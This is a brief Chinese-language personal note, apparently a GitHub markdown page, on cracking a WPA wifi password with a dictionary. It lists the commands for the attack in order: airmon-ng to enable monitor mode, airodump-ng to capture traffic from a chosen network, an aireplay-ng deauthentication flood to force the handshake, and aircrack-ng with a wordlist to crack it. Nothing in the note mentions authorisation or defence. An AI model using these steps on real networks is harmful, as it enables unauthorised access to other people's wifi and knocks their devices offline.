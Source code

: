 # 破解wifi（字典）
> 本文只是我的重点笔记，无需学习！

开启监听模式
载入网卡airmon-ng start wlan0

终端输入airodump-ng wlan0mon，即可完成kali无线网卡开启监听模式

此时，网卡会自动扫描周围wifi并显示出来

当搜索的差不多的时候，就Crtl+C停止搜索，找一个wifi

输入命令airodump-ng -c --bssid -w ~/ wlan0mon   （注意：-c后面填写该wifi的CH，--bssid后面填写该wifi的BSSID）

###### 此时先别急着回车键，再创建一个终端窗口
再新建的终端内先进入root，然后输入aireplay-ng -0 0 -a (复制BSSID到这里） wlan0mon

###### 先运行第一个终端窗口

再运行第二个终端窗口

当抓取到握手包的时候，就可以按crtl+c停止攻击
（怎么判断抓取到握手包了？在上图第一个终端有上角出现【WPA handshake ....】就成功了）

然后在终端输入aircrack-ng -a2 -b 握手包 -w 密码字典的位置 ~/*.cap

等待破解，OK！
